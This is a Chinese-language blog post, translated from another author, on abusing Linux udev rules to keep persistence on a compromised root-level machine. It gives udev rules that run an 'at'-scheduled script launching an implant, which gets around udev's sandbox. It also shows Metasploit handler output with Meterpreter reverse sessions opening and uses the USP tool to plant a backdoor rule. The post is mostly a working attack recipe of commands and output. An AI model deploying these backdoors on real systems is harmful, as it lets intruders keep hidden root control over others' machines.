 ```yaml
---
layout: post
title: Linux 持久化 - udev
description: Leveraging Linux udev for persistence
date: '2024-06-07 08:29:39'
tags: ["persistence", "linux"]
---
```


# Linux 持久化 - udev

___

技术来自 <https://ch4ik0.github.io/en/posts/leveraging-Linux-udev-for-persistence/> 本文主要是记录 + 翻译。

## 简介

`udev` 是 Linux 内核的设备管理器，允许用户管理 `/dev/` 目录中的设备并根据硬件事件创建操作。常见的用例包括重命名网络接口或修改特定硬盘插入时的 `udev` 。`udev` 的功能之一是基于硬件事件（例如检测）执行脚本，这使其可被用作持久化。

### 什么是`udev`

[Arch Wiki](https://wiki.archlinux.org/title/Udev):
> `udev` is a userspace system that enables the operating system administrator to register userspace handlers for events. The events received by `udev`’s daemon are mainly generated by the (Linux) kernel in response to physical events relating to peripheral devices. As such, `udev`’s main purpose is to act upon peripheral detection and hot-plugging, including actions that return control to the kernel, e.g., loading kernel modules or device firmware. Another component of this detection is adjusting the permissions of the device to be accessible to non-root users and groups. `udev` is part of systemd and thus installed by default (`systemd-udevd.service`)

概括如下：

- 它允许注册对物理事件响应执行的动作，例如连接或断开连接
- 它是默认安装的，并作为系统服务启用。
- 它在超级用户 `root` 的上下文中运行。

### `udev`规则

`udev` 规则定义事件和要执行的操作之间的关系。他们定义事件处理程序。每个规则都位于一个规则文件中，文件扩展名为 `.rules` 。

#### 保存位置

管理员创建的规则位于 `/etc/udev/rules.d/` ，系统提供的或动态生成的分别位于 `/usr/lib/udev/rules.d/` 和 `/run/udev/rules.d/` 。

#### 处理和执行逻辑

规则被集中排序和处理，不考虑源目录。如果两个或多个规则具有相同的名称，则仅执行优先级最高的规则。优先级是根据规则文件的源目录（字母序）来衡量的： `/etc/` > `/run/` > `/usr/` 。

#### 语法和示例

每个规则都由一系列以逗号分隔的键值对构成。此外，一条规则必须至少包含一个匹配键和一个赋值键：

- 规则的第一部分由匹配键组成。它们允许您设置操作（例如，插入或拔出）或设备类型（例如，如果是 USB，则仅属于特定设备的特定属性，例如 ID 等）
- 第二部分是赋值键。它规定了如果先前的匹配键已满则要完成的操作：更改设备名称或其权限、创建符号链接、运行脚本等。
一个典型的 usb 连接规则如下：

```bash
$ cat /etc/udev/rules.d/test.rules
KERNEL=="sdb[0-9]", SUBSYSTEMS=="usb", ENV{ID_SERIAL_SHORT}=="E0D55EA57414F5B1289F03D5", SYMLINK+="super_usb"
```

可以将 subsystems 指向上层设备，这样即使在系统启动时也会触发规则。比如指向 `usb` 或者 `PCI` 子系统：

```bash
$ cat /etc/udev/rules.d/test.rules
SUBSYSTEMS=="usb", RUN+="/bin/sh -c 'touch /home/test/hi.txt'"
```

## 滥用 `udev` 规则来建立持久化
>
> 假设已经入侵机器并拥有`root`权限

### `udev`限制

- **只能用于运行时间非常短的前台任务**。
- 由于**systemd-udevd.service 上强制执行的默认沙箱，**在 udev 规则内**不允许运行访问网络或挂载/卸载文件系统的程序**。
- **不允许启动守护进程或其他长时间运行的进程；分叉的进程，无论是否分离，都将在事件处理完成后被无条件终止**。

### 绕过`udev`限制

通过规则创建一个新的独立且分离的进程。

- 查询`GTFOBin`使用[`at`](https://gtfobins.github.io/gtfobins/at/)来执行。 `at`允许安排将来命令的执行。查看进程树，它不会附加到`udev` 进程，因此不会受到限制。
- 进程注入。在另一个进程中注入植入 shellcode

#### 使用`at`绕过限制

`at` 是来自官方存储库的二进制文件，并且默认安装在某些发行版中。
生成调用 `at` 的规则 ( `/etc/udev/rules.d/ttp.rules` )，该规则在被调用时立刻执行：

```bash
SUBSYSTEMS=="usb", RUN+="/usr/bin/at -M -f /home/kali/trigger.sh now"
```

`at`指向的脚本 `/opt/scripts/trigger.sh`

```bash
#!/bin/bash

# This workaround ensures that the execution is done only once.
# Not very fancy, but quick.

FILE=/home/kali/file_udev$(($(date "+%Y%m%d%H")))
if [ ! -f $FILE ]; then
        touch $FILE
        /home/kali/implant
fi
```

插入 USB 或者重启系统，将会收到连接。

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.211.55.2:4444

                                                                                                                                                                                    [*] Sending stage (1017704 bytes) to 10.211.55.14
[*] Sending stage (1017704 bytes) to 10.211.55.14
[*] Sending stage (1017704 bytes) to 10.211.55.14
[*] Meterpreter session 1 opened (10.211.55.2:4444 -> 10.211.55.14:52043) at 2024-08-26 23:26:31 -0400
```

![](assets/img/blog/linux-persistence-with-udev-sysinfo.png)

## 利用工具 USP
>
> <https://github.com/grahamhelton/USP>

部署持久化，重启时执行：

```bash
sudo ./usp -p /home/kali/trigger.sh -random
```

查看部署的后门：

```bash
$ cat /etc/udev/rules.d/75-persistence.rules
ACTION=="add", ENV{MAJOR}=="1", ENV{MINOR}=="8", RUN+="/persistence"

$ cat /persistence
#!/bin/bash

# This workaround ensures that the execution is done only once.
# Not very fancy, but quick.

FILE=/home/kali/file_udev$(($(date "+%Y%m%d%H")))
if [ ! -f $FILE ]; then
        touch $FILE
        /home/kali/implant
fi
```
